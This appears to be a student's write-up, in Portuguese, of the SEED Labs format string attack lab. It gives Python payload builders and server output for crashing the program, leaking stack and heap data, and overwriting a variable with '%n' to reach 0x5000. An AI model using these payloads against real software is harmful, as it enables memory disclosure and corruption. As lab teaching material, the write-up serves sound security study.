 # SEED Labs - Format String Attack Lab

## Task 1: Crashing the Program

- build_string.py
```python
#!/usr/bin/python3
import sys

N = 1500
content = ("%s"*N).encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

Uma vez que, a função `printf` é chamada (na `myprintf`) sem nenhum argumento opcional, caso o input (string) seja vários `format specifiers`, o seu pointer `va_list` irá avançar para endereços além da sua stack frame. O payload, guardado em `build_string.py`, foi preenchido com vários `%s` como se pode ver acima.
Para cada format specifier `%s` a função `printf` irá tratar o valor obtido (para onde va_list aponta) como um endereço e tenta imprimir valor desse mesmo endereço. O programa irá terminar indevidamente quando a função `printf` tentar imprimir o valor de um endereço inválido (null pointers, endereços que apontam para memória protegida ou endereços virtuais que não estão mapeados na memória física).

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd740
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd668
server-10.9.0.5 | The target variable's value (before): 0x11223344
```

Não é imprimida nenhuma mensagem de retorno, pelo que presupomos que o programa terminou sem retornar devidamente.

## Task 2: Printing Out the Server Program’s Memory

### Task 2.A: Stack Data

Foram necessários **64** (NUM_FORMAT_SPECIFIERS) `format specifiers %x` para `0xaaaaaaaa` ser impresso. `0xaaaaaaaa` (4 bytes) foi colocado no início do payload e o valor, **64**, foi obtido por tentativa e erro. 

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 64

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0xaaaaaaaa
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x\n"*NUM_FORMAT_SPECIFIERS

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | ����11223344
server-10.9.0.5 | 1000
server-10.9.0.5 | 8049db5
(60 linhas ocultas)
server-10.9.0.5 | aaaaaaaa
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 2.B: Heap Data

Em relação à alínea anterior, os primeiros 4 bytes do input (variável `number`) foram substituídos pelo endereço da _secret message_, `0x080b4008`, que foi obtido através do printout do server - `"The secret message's address:  0x080b4008`. O último format specifier %x foi substituído por `%s`, assim a função `printf` trata o valor desse endereço como uma `string`

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 63

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x80b4008
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*NUM_FORMAT_SPECIFIERS + "\n%s"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd750
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd678
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 1122334410008049db580e532080e61c0ffffd750ffffd67880e62d480e5000ffffd7188049f7effffd7500648049f4780e53205dc5dcffffd750ffffd75080e97200000000000000000000000000dc0af00080e500080e5000ffffdd388049effffffd7505dc5dc80e5320000ffffde040005dc
server-10.9.0.5 | A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

## Task 3: Modifying the Server Program’s Memory

### Task 3.A: Change the value to a different value

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 63

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%x"*NUM_FORMAT_SPECIFIERS + "\n%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd210
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd138
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | h1122334410008049db580e532080e61c0ffffd210ffffd13880e62d480e5000ffffd1d88049f7effffd2100648049f4780e53205dc5dcffffd210ffffd21080e97200000000000000000000000000bade210080e500080e5000ffffd7f88049effffffd2105dc5dc80e5320000ffffd8c40005dc
server-10.9.0.5 | The target variable's value (after):  0x000000ed
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

### Task 3.B: Change the value to 0x5000

- build_string.py
```python
#!/usr/bin/python3
import sys

NUM_FORMAT_SPECIFIERS = 62

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

s = "%.330x"*NUM_FORMAT_SPECIFIERS + "%.16x%n"

fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

- Printout do container:
```
server-10.9.0.5 | The target variable's value (after):  0x00005001
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd210
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffd138
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | (...) The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```

# CTF
